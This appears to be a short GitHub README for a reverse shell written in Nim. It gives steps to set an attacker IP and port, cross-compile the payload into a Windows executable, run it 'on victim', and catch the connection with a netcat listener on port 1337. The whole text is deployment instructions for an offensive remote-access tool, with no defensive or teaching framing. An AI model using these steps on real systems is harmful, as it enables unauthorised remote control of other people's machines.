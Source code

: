 # nim_reverse_shell

## A simple reverse shell with nim code.
<br>
# How to build and run?
<br>
## Change this code snippet:
##var ip = "10.0.0.183"
##var port = 1337
<br> 

## Install Nim -> sudo apt install nim -y
## Build the reverse shell -> nim c --d:mingw --cpu=amd64 reverse.nim
<br> 
## On victim: ./reverse.exe
<br>
## On Attacker: nc -vnlp 1337
